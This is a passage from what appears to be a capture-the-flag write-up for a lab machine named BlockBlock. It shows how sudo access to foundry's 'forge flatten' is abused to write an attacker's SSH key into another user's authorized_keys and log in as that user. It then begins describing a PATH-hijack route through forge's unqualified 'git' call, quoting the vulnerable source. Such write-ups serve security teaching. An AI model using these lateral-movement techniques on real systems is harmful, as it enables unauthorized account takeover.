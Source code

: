 I’ll write my public key to a file on BlockBlock:

```

[keira@blockblock shm]$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > pub

```

`flatten` can read it, and write it:

```

[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten pub
[⠃] Compiling...
// pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing

[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten pub -o /home/paul/.ssh/authorized_keys
[⠃] Compiling...
Flattened file written at /home/paul/.ssh/authorized_keys

```

With the public key in place, SSH as paul works:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen paul@10.10.11.43
[paul@blockblock ~]$ 

```

#### Via Path Hijack

The intended way to exploit this was using a relative path exploit. There is a place in `forge` where it calls `git remote get-url origin` without using the full path. This happens on [line 82](https://github.com/foundry-rs/foundry/blob/e0f87ad31d929abcf7f0eb96952e1805dc9d2c22/crates/forge/src/cmd/doc/mod.rs#L82) of `mod.rs` in the `forge` source:

```

if doc_config.repository.is_none() {
    // Attempt to read repo from git
    if let Ok(output) = Command::new("git").args(["remote", "get-url", "origin"]).output() {
        if !output.stdout.is_empty() {
            let remote = String::from_utf8(output.stdout)?.trim().to_owned();
            if let Some(captures) = GH_REPO_PREFIX_REGEX.captures(&remote) {
                let brand = captures.name("brand").unwrap().as_str();
                let tld = captures.name("tld").unwrap().as_str();
                let project = GH_REPO_PREFIX_REGEX.replace(&remote, "");
                doc_config.repository = Some(format!(
                    "https://{brand}.{tld}/{}",
                    project.trim_end_matches(".git")
                ));
            }
        }
    }
}

```
